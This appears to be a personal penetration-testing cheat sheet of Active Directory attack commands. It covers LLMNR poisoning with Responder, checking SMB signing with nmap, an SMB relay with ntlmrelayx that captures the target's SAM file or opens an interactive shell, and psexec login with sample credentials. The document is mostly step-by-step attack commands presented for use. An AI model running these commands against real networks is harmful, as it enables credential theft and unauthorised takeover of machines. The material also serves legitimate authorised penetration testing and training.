 # Initial Attack Vectors

## LLMNR Poisoning
- `responder -I <INTERFACE_NAME> -dwv`


## SMB Relay

#### Prerequisite
- smb signing must be disabled on the target (by default is disable on client windows and enable on server windows)
- relayed user credentials must be admin on target machine

#### Check if smb signing is off on the targets:
- `nmap --script=smb2-security-mode.nse -p445 192.168.189.0/24`

#### Steps for this attack:
1. edit `responder.conf` and turn off smb and http services
2. run responder : `responder -I <INTERFACE_NAME> -dwv`
3. Put targets ip address in targets.txt file
4. run `ntlmrelayx.py -tf targets.txt -smb2support`
5. it will capture SAM file of the target machine

- Note : using `-i` with `ntlmrelayx.py` will give an interactive shell

#### Gaining shell access

```bash
impacket-psexec kernel.local/aliakbari:p@ssword1@192.168.127.242
```
